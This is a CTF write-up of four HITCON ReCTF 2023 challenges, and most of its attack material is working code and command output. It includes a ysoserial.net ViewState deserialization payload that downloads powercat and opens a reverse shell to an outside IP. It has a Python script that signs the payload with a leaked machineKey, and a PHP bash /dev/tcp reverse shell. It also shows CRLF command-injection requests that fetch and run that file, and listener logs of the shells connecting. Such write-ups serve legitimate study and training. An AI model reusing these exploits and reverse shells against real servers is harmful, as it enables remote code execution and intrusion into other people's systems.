


#ctf #hitcon-rectf-2023 #misc #xxd #hexdump #web #dotnet-framework #aspx #deserialization #file-upload #file-upload-bypass #file-read #discover-secrets #ysoserial #timestamp-brute #php #command-injection-bypass #ip-regex-bypass #regex-bypass #phpsploit #subdomain #sslscan 
## unreadable

#### Info

There's an unreadable file.....

> HINT:
> 
> 1. Case Sensitive,
> 2. There's no space next to '{' and '}'
> 3. The use of punctuation marks follows grammar rules.
#### Solve

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/hitcon-2023-ctf]
└─$ hexdump -C unreadable-4b2868cc26a8dad5695e537a9dd8a164
```


```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/hitcon-2023-ctf]
└─$ xxd unreadable-4b2868cc26a8dad5695e537a9dd8a164
```


> `hitcon{It's EazY, XXD}`
## why-so-serials

#### Info

[why-so-serials](http://static.tyc4d.tw:8013/)

Origin Author: OrangeTW
#### Solve

> https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#execute-config-files
> https://github.com/w181496/Web-CTF-Cheatsheet#ssi-server-side-includes
> https://blog.kaibro.tw/2018/10/24/HITCON-CTF-2018-Web/


- `.shtml`

> `gg.shtml`

```aspx
<!--#include file="../../web.config"-->
```


```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.web>
<customErrors mode="Off"/>
    <machineKey validationKey="5E6BBAFDFB86ED0863351B36ABAEF99E643F057D" decryptionKey="A5A62129CB94A092BB09106351BC1877268473AF72AD4DD7B65ABF4731DDCB9C" decryption="DES" validation="MD5" />
</system.web>
</configuration>
```

```bash
wget https://github.com/pwntester/ysoserial.net/releases/download/Release-17/Release-17.zip
```

```powershell
PS D:\kali-share\hitcon-2023-ctf\why-so-serial\Release-17> .\ysoserial.exe -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 3.250.238.213 -p 443 -e cmd" -o base64
/wEy6xIAAQAAAP////8BAAAAAAAAAAwCAAAASVN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkFAQAAAIQBU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuU29ydGVkU2V0YDFbW1N5c3RlbS5TdHJpbmcsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dBAAAAAVDb3VudAhDb21wYXJlcgdWZXJzaW9uBUl0ZW1zAAMABgiNAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkNvbXBhcmlzb25Db21wYXJlcmAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQgCAAAAAgAAAAkDAAAAAgAAAAkEAAAABAMAAACNAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkNvbXBhcmlzb25Db21wYXJlcmAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQEAAAALX2NvbXBhcmlzb24DIlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xkZXIJBQAAABEEAAAAAgAAAAYGAAAAsQEvYyBwb3dlcnNoZWxsIElFWCAoTmV3LU9iamVjdCBOZXQuV2ViY2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2Jlc2ltb3JoaW5vL3Bvd2VyY2F0L21hc3Rlci9wb3dlcmNhdC5wczEnKTtwb3dlcmNhdCAtYyAzLjI1MC4yMzguMjEzIC1wIDQ0MyAtZSBjbWQGBwAAAANjbWQEBQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQdtZXRob2QwB21ldGhvZDEDAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCQgAAAAJCQAAAAkKAAAABAgAAAAwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BwAAAAR0eXBlCGFzc2VtYmx5BnRhcmdldBJ0YXJnZXRUeXBlQXNzZW1ibHkOdGFyZ2V0VHlwZU5hbWUKbWV0aG9kTmFtZQ1kZWxlZ2F0ZUVudHJ5AQECAQEBAzBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkGCwAAALACU3lzdGVtLkZ1bmNgM1tbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQYMAAAAS21zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQoGDQAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5Bg4AAAAaU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MGDwAAAAVTdGFydAkQAAAABAkAAAAvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIHAAAABE5hbWUMQXNzZW1ibHlOYW1lCUNsYXNzTmFtZQlTaWduYXR1cmUKU2lnbmF0dXJlMgpNZW1iZXJUeXBlEEdlbmVyaWNBcmd1bWVudHMBAQEBAQADCA1TeXN0ZW0uVHlwZVtdCQ8AAAAJDQAAAAkOAAAABhQAAAA+U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MgU3RhcnQoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGFQAAAD5TeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcyBTdGFydChTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKAQoAAAAJAAAABhYAAAAHQ29tcGFyZQkMAAAABhgAAAANU3lzdGVtLlN0cmluZwYZAAAAK0ludDMyIENvbXBhcmUoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGGgAAADJTeXN0ZW0uSW50MzIgQ29tcGFyZShTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKARAAAAAIAAAABhsAAABxU3lzdGVtLkNvbXBhcmlzb25gMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JDAAAAAoJDAAAAAkYAAAACRYAAAAKCw==
```

```python
import base64
import hashlib
import codecs


serialized_data_b64 = "/wEy6xIAAQAAAP////8BAAAAAAAAAAwCAAAASVN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkFAQAAAIQBU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuU29ydGVkU2V0YDFbW1N5c3RlbS5TdHJpbmcsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dBAAAAAVDb3VudAhDb21wYXJlcgdWZXJzaW9uBUl0ZW1zAAMABgiNAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkNvbXBhcmlzb25Db21wYXJlcmAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQgCAAAAAgAAAAkDAAAAAgAAAAkEAAAABAMAAACNAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkNvbXBhcmlzb25Db21wYXJlcmAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQEAAAALX2NvbXBhcmlzb24DIlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xkZXIJBQAAABEEAAAAAgAAAAYGAAAAsQEvYyBwb3dlcnNoZWxsIElFWCAoTmV3LU9iamVjdCBOZXQuV2ViY2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2Jlc2ltb3JoaW5vL3Bvd2VyY2F0L21hc3Rlci9wb3dlcmNhdC5wczEnKTtwb3dlcmNhdCAtYyAzLjI1MC4yMzguMjEzIC1wIDQ0MyAtZSBjbWQGBwAAAANjbWQEBQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQdtZXRob2QwB21ldGhvZDEDAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCQgAAAAJCQAAAAkKAAAABAgAAAAwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BwAAAAR0eXBlCGFzc2VtYmx5BnRhcmdldBJ0YXJnZXRUeXBlQXNzZW1ibHkOdGFyZ2V0VHlwZU5hbWUKbWV0aG9kTmFtZQ1kZWxlZ2F0ZUVudHJ5AQECAQEBAzBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkGCwAAALACU3lzdGVtLkZ1bmNgM1tbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQYMAAAAS21zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQoGDQAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5Bg4AAAAaU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MGDwAAAAVTdGFydAkQAAAABAkAAAAvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIHAAAABE5hbWUMQXNzZW1ibHlOYW1lCUNsYXNzTmFtZQlTaWduYXR1cmUKU2lnbmF0dXJlMgpNZW1iZXJUeXBlEEdlbmVyaWNBcmd1bWVudHMBAQEBAQADCA1TeXN0ZW0uVHlwZVtdCQ8AAAAJDQAAAAkOAAAABhQAAAA+U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MgU3RhcnQoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGFQAAAD5TeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcyBTdGFydChTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKAQoAAAAJAAAABhYAAAAHQ29tcGFyZQkMAAAABhgAAAANU3lzdGVtLlN0cmluZwYZAAAAK0ludDMyIENvbXBhcmUoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGGgAAADJTeXN0ZW0uSW50MzIgQ29tcGFyZShTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKARAAAAAIAAAABhsAAABxU3lzdGVtLkNvbXBhcmlzb25gMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JDAAAAAoJDAAAAAkYAAAACRYAAAAKCw=="
# decpde validation key from hex
validation_key = "5E6BBAFDFB86ED0863351B36ABAEF99E643F057D"
validation_key_decode=codecs.decode(validation_key, 'hex')
# Decode the serialized_data_b64 from base64
serialized_data = base64.b64decode(serialized_data_b64)
m = hashlib.md5()
m.update(serialized_data + validation_key_decode + b"\x00\x00\x00\x00")
payload = base64.b64encode(serialized_data + m.digest())
print(payload)
```

```bash
D:\kali-share\hitcon-2023-ctf\why-so-serial>python exploit.py
b'/wEy6xIAAQAAAP////8BAAAAAAAAAAwCAAAASVN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkFAQAAAIQBU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuU29ydGVkU2V0YDFbW1N5c3RlbS5TdHJpbmcsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dBAAAAAVDb3VudAhDb21wYXJlcgdWZXJzaW9uBUl0ZW1zAAMABgiNAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkNvbXBhcmlzb25Db21wYXJlcmAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQgCAAAAAgAAAAkDAAAAAgAAAAkEAAAABAMAAACNAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkNvbXBhcmlzb25Db21wYXJlcmAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQEAAAALX2NvbXBhcmlzb24DIlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xkZXIJBQAAABEEAAAAAgAAAAYGAAAAsQEvYyBwb3dlcnNoZWxsIElFWCAoTmV3LU9iamVjdCBOZXQuV2ViY2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2Jlc2ltb3JoaW5vL3Bvd2VyY2F0L21hc3Rlci9wb3dlcmNhdC5wczEnKTtwb3dlcmNhdCAtYyAzLjI1MC4yMzguMjEzIC1wIDQ0MyAtZSBjbWQGBwAAAANjbWQEBQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQdtZXRob2QwB21ldGhvZDEDAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCQgAAAAJCQAAAAkKAAAABAgAAAAwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BwAAAAR0eXBlCGFzc2VtYmx5BnRhcmdldBJ0YXJnZXRUeXBlQXNzZW1ibHkOdGFyZ2V0VHlwZU5hbWUKbWV0aG9kTmFtZQ1kZWxlZ2F0ZUVudHJ5AQECAQEBAzBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkGCwAAALACU3lzdGVtLkZ1bmNgM1tbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQYMAAAAS21zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQoGDQAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5Bg4AAAAaU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MGDwAAAAVTdGFydAkQAAAABAkAAAAvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIHAAAABE5hbWUMQXNzZW1ibHlOYW1lCUNsYXNzTmFtZQlTaWduYXR1cmUKU2lnbmF0dXJlMgpNZW1iZXJUeXBlEEdlbmVyaWNBcmd1bWVudHMBAQEBAQADCA1TeXN0ZW0uVHlwZVtdCQ8AAAAJDQAAAAkOAAAABhQAAAA+U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MgU3RhcnQoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGFQAAAD5TeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcyBTdGFydChTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKAQoAAAAJAAAABhYAAAAHQ29tcGFyZQkMAAAABhgAAAANU3lzdGVtLlN0cmluZwYZAAAAK0ludDMyIENvbXBhcmUoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGGgAAADJTeXN0ZW0uSW50MzIgQ29tcGFyZShTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKARAAAAAIAAAABhsAAABxU3lzdGVtLkNvbXBhcmlzb25gMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JDAAAAAoJDAAAAAkYAAAACRYAAAAKC19DP7KdGMmbfilOLUYEooI='
```


```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.245.210] from (UNKNOWN) [220.135.64.133] 49818
Microsoft Windows [Version 10.0.17763.4645]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\.net v4.5

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description              State
============================= ======================== ========
SeAssignPrimaryTokenPrivilege NBz{ǵv     Disabled
SeIncreaseQuotaPrivilege      վBz{ǪOtB Disabled
SeAuditPrivilege              ͦwʽ]           Disabled
SeChangeNotifyPrivilege       LPCˬd             Enabled
SeImpersonatePrivilege        bΤ       Enabled
SeCreateGlobalPrivilege       إ߳qΪ             Enabled
SeIncreaseWorkingSetPrivilege W[Bz{Ǥu@       Disabled
```

```bash
c:\windows\system32\inetsrv>type C:\flag\theflag.txt
type C:\flag\theflag.txt
hitcon{N0w_u_knOw_VIEWSTATE}
```

## FBI WARNING

#### Info

Please help FBI to arrest Ωrange! (Flag format: hitcon{<ip-address-of-Ωrange>}) (Hint: The prefix of the IP address is 217)

Original Author: orange 🍊

[http://rectf.hitcon2023.online:30003/](http://rectf.hitcon2023.online:30003/)
#### Solve

> https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2021/FBI-Warning/index.html
> https://github.com/orangetw/My-CTF-Web-Challenges#fbi-warning
> https://blog.maple3142.net/2021/12/07/hitcon-ctf-2021-writeups/#fbi-warning



> `brute.php`

```php
<?php
define("IDSEED", 'idの種');
$time = 1638537259; // 302 is from microtime
$target = 'E98SXRsI';
$st = ip2long("217.0.0.0");
$ed = ip2long("217.255.255.255");

for($i=$st;$i<$ed;$i++){
    if($i % 65536 === 0){
        echo ($i/65536)."\n";
    }
    $ip = long2ip($i);
    $h = substr(crypt(md5($ip.IDSEED.gmdate("Ymd", $time+9*60*60)),'id'),-8);
    if($target === $h){
        echo $ip."\n";
        break;
    }
}
```

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/hitcon-2023-ctf/fbi_warning]
└─$ php brute.php
55552
55553
55554
55555
55556
55557
217.5.13.50
```

> `hitcon{217.5.13.50}`

## BaybyFirst

#### Info

Baby, do it first

Original Author: Orange

[http://dev.hitcon2023.online:8787](http://dev.hitcon2023.online:8787/)
#### Solve

> https://gist.github.com/orangetw/cb3487e47d7aaaea4692
> https://kb.hitcon.org/post/131488130087/hitcon-ctf-2015-quals-web-%E5%87%BA%E9%A1%8C%E5%BF%83%E5%BE%97
> https://github.com/pwning/public-writeup/blob/master/hitcon2015/web100-babyfirst/writeup.md
> https://blog.spoock.com/2017/09/09/Babyfirst-writeup/


> Bypass Regex with CRLF 
> - https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-potential-regexes
> - https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-potential-regexes

```bash
┌──(root㉿kali)-[~/www]
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Convert IP to decimal to bypass regex using this [site](https://codebeautify.org/ip-to-decimal-converter)


Use `%0a` for CR(Carriage Return) to send new lines

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/hitcon-2023-ctf]
└─$ http "http://dev.hitcon2023.online:8787/index.php?args[]=x%0a&args[]=curl&args[]=66776789"
```

Confirmed command injection

```bash
139.99.120.84 - - [13/Aug/2023 12:41:53] "GET / HTTP/1.1" 200 -
```
##### Shell as www-data

```bash
┌──(root㉿kali)-[~/www]
└─# cat index.html
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/54.74.27.17/1111 0>&1'");
?>

┌──(root㉿kali)-[~/www]
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
139.99.120.84 - - [13/Aug/2023 18:44:21] "GET / HTTP/1.1" 200 -
```

```bash
http "http://dev.hitcon2023.online:8787/index.php?args[]=x%0a&args[]=mkdir&args[]=exp"
http "http://dev.hitcon2023.online:8787/index.php?args[]=x%0a&args[]=cd&args[]=exp%0a&args[]=wget&args[]=910826257"
http "http://dev.hitcon2023.online:8787/index.php?args[]=x%0a&args[]=tar&args[]=cf&args[]=c&args[]=exp"
http "http://dev.hitcon2023.online:8787/index.php?args[]=x%0a&args[]=php&args[]=c"
```

```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 1111
listening on [any] 1111 ...
qconnect to [10.10.253.150] from (UNKNOWN) [139.99.120.84] 51030
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@47d54b4b83a0:/var/www/html/sandbox/x.x.x.x$ ls -la
qls -la
bash: qls: command not found
www-data@47d54b4b83a0:/var/www/html/sandbox/x.x.x.x$ ls -la
ls -la
total 84
drwxr-xr-x  5 www-data www-data  4096 Aug 13 18:44 .
drwxr-xr-x 12 www-data www-data  4096 Aug 13 18:09 ..
-rw-r--r--  1 www-data www-data 10240 Aug 13 18:30 a
-rw-r--r--  1 www-data www-data 10240 Aug 13 18:37 b
-rw-r--r--  1 www-data www-data 10240 Aug 13 18:44 c
drwxr-xr-x  2 www-data www-data  4096 Aug 13 18:29 exp
drwxr-xr-x  2 www-data www-data  4096 Aug 13 18:37 exp2
drwxr-xr-x  2 www-data www-data  4096 Aug 13 18:44 exp3
-rw-r--r--  1 www-data www-data   297 Aug 13 16:15 index.html
-rw-r--r--  1 www-data www-data    64 Aug 13 16:17 index.html.1
-rw-r--r--  1 www-data www-data    64 Aug 13 16:17 index.html.2
-rw-r--r--  1 www-data www-data    54 Aug 13 18:11 index.html.3
-rw-r--r--  1 www-data www-data   120 Aug 13 18:24 index.html.4
-rw-r--r--  1 www-data www-data   120 Aug 13 18:24 index.html.5
-rw-r--r--  1 www-data www-data    41 Aug 13 18:37 s.php
www-data@47d54b4b83a0:/var/www/html/sandbox/x.x.x.x$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```bash
www-data@47d54b4b83a0:/var/www/html/sandbox/x.x.x.x$ ls -la /
ls -la /
total 92
drwxr-xr-x   1 root root 4096 Aug 13 16:01 .
drwxr-xr-x   1 root root 4096 Aug 13 16:01 ..
-rwxr-xr-x   1 root root    0 Aug 13 16:00 .dockerenv
drwxr-xr-x   1 root root 4096 Aug 13 15:51 bin
drwxr-xr-x   2 root root 4096 Nov 10  2019 boot
drwxr-xr-x   5 root root  340 Aug 13 16:01 dev
drwxr-xr-x   1 root root 4096 Aug 13 16:00 etc
-rw-rw-r--   1 root root   35 Aug 13 15:41 flag
drwxr-xr-x   2 root root 4096 Nov 10  2019 home
drwxr-xr-x   1 root root 4096 Nov 22  2019 lib
drwxr-xr-x   2 root root 4096 Nov 18  2019 lib64
drwxr-xr-x   2 root root 4096 Nov 18  2019 media
drwxr-xr-x   2 root root 4096 Nov 18  2019 mnt
drwxr-xr-x   2 root root 4096 Nov 18  2019 opt
dr-xr-xr-x 427 root root    0 Aug 13 16:01 proc
drwx------   1 root root 4096 Nov 22  2019 root
